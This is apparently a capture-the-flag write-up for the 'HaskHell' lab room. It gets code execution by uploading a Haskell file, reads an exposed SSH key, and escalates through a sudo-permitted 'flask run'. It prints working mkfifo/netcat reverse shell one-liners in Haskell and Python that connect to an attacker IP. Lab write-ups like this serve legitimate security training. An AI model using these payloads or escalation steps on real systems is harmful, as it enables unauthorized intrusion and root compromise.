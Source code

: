 # HaskHell

A simple room, with a few new techs

1. A port scan revealed 22 and 5001. On 5001 was a website asking users to submit their haskell assignments.
2. The link to send haskell files on the homework page didn't work, but a dirb on the ip revealed /submit which did
3. Testing with the following file proved I had RCE (code is from rosetta code [here](https://rosettacode.org/wiki/Execute_a_system_command#Haskell)):

```haskell
import System.Cmd
 
main = system "ls"
```

4. The following connected a reverse shell (as 'flask'):

```haskell
import System.Cmd
 
main = system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.5.4 4444 >/tmp/f"
```

5. In the /home/prof directory was a .ssh with a readably id_rsa. I extracted this to ssh in as prof.
6. Prof had  `(root) NOPASSWD: /usr/bin/flask run`. After a bit of trial and error around how this command worked, I got a root reverse shell via:

    a. creating a file called shell.py with the following contents:

    ```python
    import os
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.112.79 4444 >/tmp/f")
    ```

    b. calling `export FLASK_APP=shell.py`

    c. running `sudo /usr/bin/flask run`

Easy, but interesting!
